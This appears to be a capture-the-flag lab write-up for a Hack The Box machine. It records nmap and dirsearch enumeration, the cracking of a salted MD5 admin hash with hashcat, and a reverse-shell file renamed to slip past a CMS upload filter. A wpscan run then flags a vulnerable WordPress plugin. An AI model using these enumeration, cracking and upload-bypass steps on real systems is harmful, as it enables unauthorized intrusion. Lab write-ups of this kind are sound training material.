10.10.10.88





# Nmap 7.91 scan initiated Fri Jan 15 13:13:05 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.88
Nmap scan report for 10.10.10.88
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 15 13:13:18 2021 -- 1 IP address (1 host up) scanned in 13.62 seconds

curl 10.10.10.88/robots.txt -o robots.txt
cat robots.txt | grep /web | awk '{print $2}'

while IFS= read -r line; do curl http://10.10.10.88$line; done < webservices.txt



kali@kali:~/htb/boxes/tartarsauce/10.10.10.88$ /opt/dirsearch/dirsearch.py -u http://10.10.10.88/webservices/monstra-3.0.4/ -e php --plain-text-report=scan
/opt/dirsearch/thirdparty/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.26.2) or chardet (4.0.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 20 | Wordlist size: 7052

Error Log: /opt/dirsearch/logs/errors-21-01-15_13-28-36.log

Target: http://10.10.10.88/webservices/monstra-3.0.4/

Output File: /opt/dirsearch/reports/10.10.10.88/webservices.monstra-3.0.4_21-01-15_13-28-36.txt

[13:28:36] Starting: 
[13:28:40] 403 -  326B  - /webservices/monstra-3.0.4/.htaccess.bak1
[13:28:40] 403 -  326B  - /webservices/monstra-3.0.4/.htaccess.orig
[13:28:40] 403 -  328B  - /webservices/monstra-3.0.4/.htaccess.sample
[13:28:40] 403 -  326B  - /webservices/monstra-3.0.4/.htaccess.save
[13:28:40] 403 -  324B  - /webservices/monstra-3.0.4/.htaccessBAK
[13:28:40] 403 -  324B  - /webservices/monstra-3.0.4/.htaccessOLD
[13:28:40] 403 -  325B  - /webservices/monstra-3.0.4/.htaccessOLD2
[13:28:40] 403 -  317B  - /webservices/monstra-3.0.4/.html
[13:28:40] 403 -  316B  - /webservices/monstra-3.0.4/.htm
[13:28:40] 403 -  323B  - /webservices/monstra-3.0.4/.httr-oauth
[13:28:41] 403 -  316B  - /webservices/monstra-3.0.4/.php
[13:28:41] 403 -  317B  - /webservices/monstra-3.0.4/.php3
[13:28:48] 301 -  336B  - /webservices/monstra-3.0.4/admin  ->  http://10.10.10.88/webservices/monstra-3.0.4/admin/
[13:28:49] 403 -  327B  - /webservices/monstra-3.0.4/admin/.htaccess
[13:28:49] 200 -    8KB - /webservices/monstra-3.0.4/admin/
[13:28:49] 200 -    8KB - /webservices/monstra-3.0.4/admin/?/login
[13:28:49] 200 -    8KB - /webservices/monstra-3.0.4/admin/index.php                                                    
[13:28:54] 301 -  338B  - /webservices/monstra-3.0.4/backups  ->  http://10.10.10.88/webservices/monstra-3.0.4/backups/       
[13:28:54] 403 -  320B  - /webservices/monstra-3.0.4/backups/
[13:28:58] 301 -  337B  - /webservices/monstra-3.0.4/engine  ->  http://10.10.10.88/webservices/monstra-3.0.4/engine/
[13:28:59] 200 -    1KB - /webservices/monstra-3.0.4/favicon.ico                     
[13:29:01] 200 -    4KB - /webservices/monstra-3.0.4/index.php                                                             
[13:29:03] 301 -  340B  - /webservices/monstra-3.0.4/libraries  ->  http://10.10.10.88/webservices/monstra-3.0.4/libraries/
[13:29:21] 301 -  338B  - /webservices/monstra-3.0.4/plugins  ->  http://10.10.10.88/webservices/monstra-3.0.4/plugins/
[13:29:22] 301 -  337B  - /webservices/monstra-3.0.4/public  ->  http://10.10.10.88/webservices/monstra-3.0.4/public/
[13:29:22] 200 -   92B  - /webservices/monstra-3.0.4/robots.txt
[13:29:22] 200 -    1KB - /webservices/monstra-3.0.4/rss.php
[13:29:24] 200 -  730B  - /webservices/monstra-3.0.4/sitemap.xml                                                              
[13:29:24] 301 -  338B  - /webservices/monstra-3.0.4/storage  ->  http://10.10.10.88/webservices/monstra-3.0.4/storage/
[13:29:25] 301 -  334B  - /webservices/monstra-3.0.4/tmp  ->  http://10.10.10.88/webservices/monstra-3.0.4/tmp/
[13:29:25] 403 -  316B  - /webservices/monstra-3.0.4/tmp/
                                                                                                                                                     
Task Completed



http://10.10.10.88/webservices/monstra-3.0.4/

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

https://simpleinfosec.com/2018/05/27/monstra-cms-3-0-4-unauthenticated-user-credential-exposure/





return md5(
    md5(
        trim($password) . MONSTRA_PASSWORD_SALT
    )
);

*/define('MONSTRA_PASSWORD_SALT', 'YOUR_SALT_HERE');

kali@kali:/opt/dirsearch$ hashcat -h | grep salt | grep md5
     10 | md5($pass.$salt)                                 | Raw Hash, Salted and/or Iterated
     20 | md5($salt.$pass)                                 | Raw Hash, Salted and/or Iterated
   3800 | md5($salt.$pass.$salt)                           | Raw Hash, Salted and/or Iterated
   3710 | md5($salt.md5($pass))                            | Raw Hash, Salted and/or Iterated
   4110 | md5($salt.md5($pass.$salt))                      | Raw Hash, Salted and/or Iterated
   4010 | md5($salt.md5($salt.$pass))                      | Raw Hash, Salted and/or Iterated
  21300 | md5($salt.sha1($salt.$pass))                     | Raw Hash, Salted and/or Iterated
     40 | md5($salt.utf16le($pass))                        | Raw Hash, Salted and/or Iterated
   3910 | md5(md5($pass).md5($salt))                       | Raw Hash, Salted and/or Iterated
  21200 | md5(sha1($salt).md5($pass))                      | Raw Hash, Salted and/or Iterated
     30 | md5(utf16le($pass).$salt)                        | Raw Hash, Salted and/or Iterated
   4710 | sha1(md5($pass).$salt)                           | Raw Hash, Salted and/or Iterated
  21100 | sha1(md5($pass.$salt))                           | Raw Hash, Salted and/or Iterated
   4711 | Huawei sha1(md5($pass).$salt)                    | Enterprise Application Software (EAS)

kali@kali:~/htb/boxes/tartarsauce/10.10.10.88$ sed -e 's/$/YOUR_SALT_HERE/' -i rockyou.txt
kali@kali:~/htb/boxes/tartarsauce/10.10.10.88$ head rockyou.txt 
123456YOUR_SALT_HERE
12345YOUR_SALT_HERE
123456789YOUR_SALT_HERE
passwordYOUR_SALT_HERE
iloveyouYOUR_SALT_HERE
princessYOUR_SALT_HERE
1234567YOUR_SALT_HERE
rockyouYOUR_SALT_HERE
12345678YOUR_SALT_HERE
abc123YOUR_SALT_HERE

[+] Double MD5 [Hashcat Mode: 2600]  

hashcat -m 2600 "5d1e3697d706b0e24e574b56e79affda" rockyou.txt.tartar

5d1e3697d706b0e24e574b56e79affda:adminYOUR_SALT_HERE

pw: admin





Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote Code Execution php/webapps/43348.txt



mv php-reverse-shell.php php-reverse-shell.php7





kali@kali:~/htb/boxes/tartarsauce/10.10.10.88$ /opt/dirsearch/dirsearch.py -u http://10.10.10.88/webservices/ -e php --plain-text-report=scan

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8868

Error Log: /opt/dirsearch/logs/errors-21-01-15_14-12-28.log

Target: http://10.10.10.88/webservices/

Output File: /opt/dirsearch/reports/10.10.10.88/webservices_21-01-15_14-12-28.txt

[14:12:28] Starting: 
[14:12:33] 403 -  309B  - /webservices/.ht_wsr.txt
[14:12:33] 403 -  312B  - /webservices/.htaccess.bak1
[14:12:33] 403 -  312B  - /webservices/.htaccess.orig
[14:12:33] 403 -  314B  - /webservices/.htaccess.sample
[14:12:33] 403 -  312B  - /webservices/.htaccess.save
[14:12:33] 403 -  310B  - /webservices/.htaccessBAK
[14:12:33] 403 -  311B  - /webservices/.htaccessOLD2
[14:12:33] 403 -  312B  - /webservices/.htaccess_orig
[14:12:33] 403 -  310B  - /webservices/.htaccessOLD
[14:12:33] 403 -  313B  - /webservices/.htaccess_extra
[14:12:33] 403 -  310B  - /webservices/.htaccess_sc
[14:12:33] 403 -  302B  - /webservices/.htm
[14:12:33] 403 -  303B  - /webservices/.html
[14:12:33] 403 -  312B  - /webservices/.htpasswd_test
[14:12:33] 403 -  308B  - /webservices/.htpasswds
[14:12:33] 403 -  309B  - /webservices/.httr-oauth
[14:12:34] 403 -  302B  - /webservices/.php
[14:12:34] 403 -  303B  - /webservices/.php3
[14:13:00] 301 -  319B  - /webservices/wp  ->  http://10.10.10.88/webservices/wp/
[14:13:01] 200 -    2KB - /webservices/wp/wp-login.php

Task Completed

wpscan --url http://10.10.10.88/webservices/wp/



wpscan --url http://10.10.10.88/webservices/wp/ --detection-mode aggressive -f cli

wpscan --url http://10.10.10.88/webservices/wp/ --detection-mode aggressive --plugins-detection aggressive -f cli

[+] gwolle-gb
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2020-11-26T13:09:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.0.8
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - http://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
